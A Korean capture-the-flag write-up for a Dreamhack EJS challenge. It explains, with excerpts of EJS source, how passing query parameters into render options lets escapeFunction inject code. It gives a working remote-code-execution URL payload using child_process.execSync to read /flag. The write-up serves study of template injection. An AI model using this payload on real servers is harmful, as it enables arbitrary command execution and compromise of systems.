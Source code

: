 # ejs@3.1.8
https://dreamhack.io/wargame/challenges/675
## Description
find bug and exploit !

# Exploit
## Find bug
```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/', (req,res) => {
    res.render('index', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
client에게 EJS렌더링에 대해 무제한 엑세스 권한을 부여해 취약점이 발생한다.    
https://github.com/mde/ejs/blob/main/SECURITY.md
<br><br>

### ejs@3.1.6
```js
if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
```
`opts`에 원하는 값을 넣을 수 있다.
<br><br>

```js
if (opts.outputFunctionName) {
  if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
    throw new Error('outputFunctionName is not a valid JS identifier.');
  }
  prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
즉 `opts.outputFunctionName`을 덮어쓸수 있었다.       
https://eslam.io/posts/ejs-server-side-template-injection-rce/

###  > ejs@3.1.6
```js
compile: function (){

    // ~~~

    // Line 580
    var escapeFn = opts.escapeFunction;

    // ~~~

    // Line 591
    if (opts.outputFunctionName){
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
          throw new Error('outputFunctionName is not a valid JS identifier.');
      
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }

    // ~~~

    // Line 636
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }

    // ~~~
}
```
https://github.com/mde/ejs/blob/5b13088c6de0bff1ce5c6ff2eef7ee7eff0d6f3e/lib/ejs.js#L571
<br><br>

```js
if (opts.outputFunctionName){
    if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
      throw new Error('outputFunctionName is not a valid JS identifier.');
  
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
유저가 직접 사용가능한 `opts.escapeFunction`같은 함수는 `if (!_JS_IDENTIFIER.test(opts.outputFunctionName))`으로 검사한다. 
<br><br>

```js
var escapeFn = opts.escapeFunction;
```
하지만 `opts.escapeFunction`은 이미 `escapeFn`에 저장되어있다.
<br><br>

```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```
`opts.client`가 `true`라면 컴파일엔 `escapeFn.toString()`가 담긴다.

### Payload
`?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("calc");`
<br><br>

## Exploit
`http://host3.dreamhack.games:<PORT>/?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("cat /flag");`
